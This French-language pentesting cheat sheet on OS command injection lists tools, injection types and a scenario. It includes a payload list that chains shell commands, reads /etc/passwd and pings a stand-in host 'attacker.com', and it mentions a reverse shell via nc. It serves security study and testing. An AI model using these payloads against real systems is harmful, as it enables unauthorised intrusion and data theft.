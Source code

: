
## 🖥️ Command Injection (OS Command Injection)

---

## Introduction

La <span class="concept">Command Injection</span> (OS Command Injection) permet à un attaquant d’injecter des commandes système arbitraires dans une application vulnérable.

Elle peut permettre :
- Exécution de commandes système
- Exfiltration de données
- Contrôle total du serveur

Souvent critique : conduit à un RCE.

---

## Objectifs

- <span class="goal">Identifier des points d’injection OS</span>
- <span class="goal">Exécuter des commandes système ciblées</span>
- <span class="goal">Obtenir un shell (reverse shell)</span>

---

## Outils & commandes

| Outil | Exemple & explication |
|-------|-----------------------|
| <span class="technology">Burp Suite (Repeater)</span> | Injection manuelle |
| <span class="technology">Commix</span> | <span class="example">commix --url target --os-cmd whoami</span> |
| <span class="technology">ffuf</span> | <span class="example">ffuf -u target?param=FUZZ -w payloads-cmd.txt</span> |
| <span class="technology">PayloadsAllTheThings</span> | Cheatsheet + payloads |
| <span class="technology">bbot</span> | Recon + param discovery |
| <span class="technology">Arjun</span> | Fuzzing paramètres |

---

## Types de Command Injection

| Type | Exemple |
|------|---------|
| <span class="concept">Classic</span> | `param=ls` |
| <span class="concept">Chained / Separator</span> | `; whoami` |
| <span class="concept">Blind (boolean)</span> | Test par changement réponse |
| <span class="concept">Blind (time-based)</span> | Injection delay (sleep) |
| <span class="concept">Out-Of-Band</span> | Exfil via DNS / HTTP |

---

## Techniques clés

| Technique | Outil |
|-----------|------|
| <span class="concept">Manual injection</span> | Burp Repeater |
| <span class="concept">Automated testing</span> | Commix |
| <span class="concept">Param discovery</span> | Arjun |
| <span class="concept">Fuzz payloads</span> | ffuf |
| <span class="concept">Bypass filters</span> | manual |

---

## Payloads courants

```
; ls
&& whoami
| id
`cat /etc/passwd`
; sleep 5
`ping -c 5 attacker.com`
```

---

## Bonnes pratiques

- <span class="best-practice">Toujours vérifier le contexte (param GET, POST, cookie, header...)</span>
- <span class="best-practice">Limiter le bruit en prod</span>
- <span class="best-practice">Documenter l’impact (RCE / data access)</span>
- <span class="mitigation">Ne jamais déclencher un DoS involontaire</span>
- <span class="best-practice">Utiliser PayloadsAllTheThings pour payloads adaptés</span>

---

## 🎯 Exemple de scénario

> <span class="note">🖥️ Cible :</span> Interface admin vulnérable (param `host`)

Actions :
- <span class="technology">Arjun</span> → découverte param `host`
- <span class="technology">Burp Repeater</span> → test `; whoami` → user `apache`
- <span class="technology">Commix</span> → automatisation injection + exfil
- Reverse shell obtenu avec `nc`

---

## Cheatlist Command Injection

| Type | Outils |
|------|--------|
| Manual | Burp, PayloadsAllTheThings |
| Automated | Commix |
| Fuzz | ffuf |
| Param discovery | Arjun, bbot |

---

## 🚀 Navigation

- 🚀 [[06_Path_Traversal]]
- 🚀 [[07_RFI]]
